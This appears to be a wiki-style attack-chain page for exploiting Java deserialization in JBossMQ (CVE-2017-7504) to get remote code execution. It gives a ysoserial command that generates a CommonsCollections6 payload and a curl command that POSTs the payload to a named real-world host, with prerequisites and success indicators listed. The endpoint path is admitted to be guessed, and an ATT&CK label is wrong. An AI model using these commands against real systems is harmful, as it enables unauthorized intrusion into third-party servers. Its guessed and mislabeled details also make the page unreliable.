

# Java Deserialization RCE in JBossMQ via Malicious Object Submission

Multi-stage attack chain demonstrating exploitation of unsafe Java deserialization in the JBossMQ component to achieve remote code execution on a vulnerable web application.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/ysoserial]]
- curl or similar HTTP client

### Target Environment

- Web platform running JBoss with JBossMQ service
- Java-based application vulnerable to deserialization
- Exposed endpoint for user-submitted data (e.g., specific path in JBossMQ)

### Initial Access Requirements

- Network access to the target URL (e.g., http://card.starbucks.in/)
- No credentials required for public-facing endpoint
- Knowledge of the vulnerable path accepting serialized objects

## Detailed Attack Procedures

### Step 1: Submit Malicious Serialized Object
procedure: [[procedures/Exploit-Java-Deserialization-in-JBossMQ]]

**Objective**: Inject a malicious Java object into the deserialization process to trigger remote code execution.

**Instructions**: Generate a serialized payload using [[tools/ysoserial]] for a CommonsCollections gadget chain, then submit it via HTTP POST to the vulnerable JBossMQ endpoint. Assume the endpoint is a user-submitted data path like /jbossmq/submit (inferred from testing context; adjust based on reconnaissance).

First, generate the payload with [[commands/ysoserial-generate-payload]]:

```bash
java -jar ysoserial.jar CommonsCollections6 'touch /tmp/pwned' > payload.ser
```

Then, send the payload using [[commands/curl-post-payload]]:

```bash
curl -X POST http://card.starbucks.in/jbossmq/submit -H "Content-Type: application/octet-stream" --data-binary @payload.ser
```

**Expected Output**: Server processes the payload, deserializes it, and executes the command (e.g., file /tmp/pwned created). Monitor for errors or success via response or server logs.

**Success Indicators**:
- No deserialization errors in response
- Evidence of command execution (e.g., file creation, process spawn)
- CVE-2017-7504 characteristics match (patched in later JBoss versions)

## Attack Chain Summary

### Key Achievements

1. Achieved initial access by exploiting deserialization without authentication
2. Executed arbitrary commands on the server, demonstrating full RCE
3. Highlighted risks of unsanitized user-submitted Java objects in JBossMQ

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[PowerShell]] Command and Scripting Interpreter: Java

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---
*Last updated: 2023-10-01T00:00:00Z*
